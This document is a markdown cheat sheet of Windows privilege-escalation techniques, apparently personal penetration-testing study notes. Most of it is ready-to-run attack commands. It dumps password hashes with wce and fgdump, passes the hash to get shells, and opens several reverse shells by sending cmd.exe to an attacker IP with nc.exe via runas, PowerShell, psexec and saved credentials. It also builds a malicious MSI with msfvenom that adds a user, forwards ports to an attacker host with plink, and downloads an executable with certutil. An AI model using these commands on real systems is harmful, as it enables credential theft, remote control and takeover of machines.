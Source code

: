 # Windows Priv escalation
Lots of this is just how good you can get at enumerating, go look at the Windows section under Enumeration/systems/windows.

## Kerberos
https://github.com/rasta-mouse/Rubeus


lateral movement after expl
https://github.com/rasta-mouse/MiscTools


## Links
https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/privilege-escalation/windows
https://www.fuzzysecurity.com/tutorials/16.html
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
https://github.com/AonCyberLabs/Windows-Exploit-Suggester <-idk how well this works anymore

## try this first
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```
```
sysinfo
```

## Missing patches?
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/windows/missing-patch-exploits.rst

## Passing the Hash
The following commands can be used to dump password hashes:
```
wce32.exe -w
wce64.exe -w
fgdump.exe
```
### Remote
Pass the hash remotely to gain a shell:
```
pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd
```
Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):
```
pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd
```
Alternative:
```
export SMBHASH=<hash>
pth-winexe -U <domain>/<username>% //<target-ip> cmd
```
### Local
Pass the hash locally using runas:
```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```
Pass the hash locally using PowerShell:
```
secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```
Pass the hash locally using psexec:
```
psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```
## Loopback Services
Search for services listening on the loopback interface:
```
netstat -ano | findstr "LISTEN"
```
Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):
```
plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
```
## AlwaysInstallElevated
AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Create a malicious MSI:
```
msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
```
Use msiexec to run the malicious MSI:
```
msiexec /quiet /qn /i C:\evil.msi
```
## Stored Credentials
If there are stored credentials, we can run commands as that user:
```
$ cmdkey /list

Currently stored credentials:

Target: Domain:interactive=PWNED\Administrator
Type: Domain Password
User: PWNED\Administrator
```
Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:
```
runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"
```


## Getting files

```
certutil.exe -urlcache -f http://10.0.2.4/winpeas.exe winpeas.exe
```